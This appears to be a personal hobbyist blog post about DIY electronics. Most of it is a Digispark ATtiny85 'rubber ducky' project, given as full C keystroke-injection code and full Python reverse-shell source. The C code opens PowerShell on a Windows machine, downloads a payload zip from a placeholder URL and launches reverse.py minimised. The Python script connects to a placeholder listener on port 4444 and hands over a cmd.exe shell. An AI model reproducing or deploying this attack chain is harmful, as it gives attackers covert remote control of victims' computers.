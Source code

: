 ```yaml
---
author: Alessandro Ideo
github_username: usg-ishimura
tags: hacking
image: https://github.com/usg-ishimura/usg-ishimura.github.io/assets/103458862/ae3c68f0-39e9-49c4-bb5c-07ef01d8fdfd
---
```


# DIY Electronics

Some of my recent projects include: 

## Self driving and IR controlled Arduino car as a toy for my cat

![WhatsApp Image 2024-02-13 at 15 09 03](https://github.com/usg-ishimura/usg-ishimura.github.io/assets/103458862/ecdb3725-5078-467a-b606-7b38b9de28a6)

## Digispark italian duckuino

Digispark attiny85 can be programmed in C as a rubber ducky, here can be seen in action on a linux target

<video width="100%" height="auto" controls poster="https://img.youtube.com/vi/aW8nFgRwnoA/0.jpg">
  <source src="https://user-images.githubusercontent.com/103458862/221435341-da1ec07e-903d-4ed8-ba8d-e3d7a9163a5d.mp4" type="video/mp4">
  Your browser does not support the video tag.
</video> 

The C windows payload for the DIY rubber ducky

```c
#include "DigiKeyboard.h"

void setup() {

	DigiKeyboard.sendKeyStroke(0);
	DigiKeyboard.delay(500);
	DigiKeyboard.sendKeyStroke(0,MOD_GUI_LEFT);
	DigiKeyboard.delay(1000);
	DigiKeyboard.print("powershell");
	DigiKeyboard.delay(500);
	DigiKeyboard.sendKeyStroke(KEY_ENTER);
	DigiKeyboard.delay(1000);
	DigiKeyboard.println("wget https://embeddable-package-&-payload-URL/python-w32.zip -O python-w32.zip");
	DigiKeyboard.sendKeyStroke(KEY_ENTER);
	DigiKeyboard.delay(500);
	DigiKeyboard.println("Expand-Archive -Force python-w32.zip -DestinationPath App");
	DigiKeyboard.sendKeyStroke(KEY_ENTER);
	DigiKeyboard.delay(500);
	DigiKeyboard.println("cd App\\python-w32; Start-Process -WindowStyle Minimized .\\python reverse.py; exit");
	DigiKeyboard.sendKeyStroke(KEY_ENTER);
	  
}

void loop() {

}
```

And the python code for the reverse shell:

```python
import os,socket,subprocess,threading;

# On listener: nc -lvp 4444

def s2p(s, p):
    while True:
        data = s.recv(1024)
        if len(data) > 0:
            p.stdin.write(data)
            p.stdin.flush()

def p2s(s, p):
    while True:
        s.send(p.stdout.read(1))

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("listener-URL", 4444))

p=subprocess.Popen(["\\windows\\system32\\cmd.exe"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE)

s2p_thread = threading.Thread(target=s2p, args=[s, p])
s2p_thread.daemon = True
s2p_thread.start()

p2s_thread = threading.Thread(target=p2s, args=[s, p])
p2s_thread.daemon = True
p2s_thread.start()

try:
    p.wait()
except KeyboardInterrupt:
    s.close()
```
